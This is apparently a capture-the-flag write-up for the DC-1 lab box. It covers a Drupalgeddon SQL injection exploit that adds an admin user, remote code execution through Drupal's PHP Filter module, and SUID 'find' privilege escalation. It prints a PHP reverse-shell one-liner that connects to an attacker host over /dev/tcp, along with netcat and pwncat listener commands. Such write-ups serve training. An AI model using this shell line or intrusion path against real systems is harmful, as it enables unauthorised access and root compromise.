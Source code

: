 ```yaml
---
title: DC-1 Writeup
---
```

Despite the name, this is not a Domain Controller and is indeed a Linux box!

Starting off with a quick `nmap` scan of the box:

![](https://i.imgur.com/AmKH43e.png)

We see 3 services running on the box:
* `22` - SSH
* `80` - HTTP
* `111` - RPCBind

What really caught my attention was port `80` since it's running `Drupal`, which is an open-source *Content Management System (CMS)* and `nmap` is telling us that it's running version 7 of Drupal which has an SQL injection vulnerability that was dubbed `Drupalgeddon`! 

Exploiting this SQL injection can lead to us adding a new admin user to the CMS which we could abuse to get an initial shell foothold on the host! I used a Python script to exploit this SQL vulnerability which can be [found here](https://www.exploit-db.com/exploits/34992):
*NOTE: This Python exploit is written in Python 2, so you'll need that downloaded in order to run it successfully!*

`python2 drupalexploit.py -t http://192.168.217.193 -u 1d8 -p password`:

![](https://i.imgur.com/hwigLwm.png)

![](https://i.imgur.com/9AaZsJh.png)

And we're able to login to the Drupal instance! If we take a look at our **Roles**, we'll see that we're **administrators**:

![](https://i.imgur.com/zbjyoMx.png)

Fantastic! Now let's get a shell!

According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal), we can get RCE on a Drupal instance by using the **PHP Filter Module**. Let's go to modules > PHP filter > Checkmark it > save configuration!

After that, go to modules > PHP Filter > Permissions > set **the Use PHP Code text format** filter to be allowed by Administrators, then save these permissions:

![](https://i.imgur.com/nSNiWsr.png)

Now we can create a new page on the Drupal instance & set the text format to be PHP code & have the server execute any PHP code that we want!

Go to content > Add Content > Choose either basic page or article > Give the new page a title & insert a PHP reverse shell into the body > Set the text format to be **PHP Code**:

![](https://i.imgur.com/VXLGTAk.png)

* I chose to use the following PHP reverse shell:  `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<Attacker IP Address>/<Attacker Port> 0>&1'");?>`

On your attacker host, you can run `nc -lvnp <port>`, I'll be using [pwncat](https://github.com/calebstewart/pwncat) so in this case, I ran: `pwncat-cs -lp <port>` to start the listening port.

After the listening port has been setup, click **Save** on the Drupal instance & you should get a connection:

![](https://i.imgur.com/d33oC1d.png)

Let's get onto the **privilege escalation** portion!

# Privilege Escalation

We can start by running good ol' `LinPeas.sh`. Since I'm using `pwncat`, I just need to run `upload linpeas.sh` & ensure I'm in the same directory that the file is located in to upload it to the target host.

If you aren't using `linpeas`, starting up a simple python3 web server & `wget` will do just fine though!

After `linpeas.sh` has finished running, you'll notice that under the `SUID` section, it found that the `find` command had the `SUID` bit set. All this means is we're able to run certain binaries using an elevated users' permissions. For us, this means potential privilege escalation:

![](https://i.imgur.com/oHkNiMO.png)

We can cross-reference this with [GTFOBins](https://gtfobins.github.io/gtfobins/find/) to attempt to find any reference to the `find` binary being used for privilege escalation:

![](https://i.imgur.com/JjB5xW6.png)

And we got it! Let's run this command:

![](https://i.imgur.com/JLmcIAj.png)

Notice how it still says the UID is 33 which is `www-data` so this low privilege user still owns the process, though the process still has the full permissions that are granted to the `root` user, even though the process isn't owned by `root`! That's the magic of SUID bits!

One more thing to mention, `pwncat` has a module that can be used for automated privilege escalation named `escalate`, unfortunately though, it didn't seem to find the SUID bit for the `find` binary as an escalation path:

![](https://i.imgur.com/fKQbIKF.png)

Though, when using the `enumerate.file.suid` module, it was able to discover that the `find` binary's SUID bit was set:

![](https://i.imgur.com/IH6qHuV.png)

# References

* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal
* https://gtfobins.github.io/gtfobins/find/
* https://github.com/calebstewart/pwncat
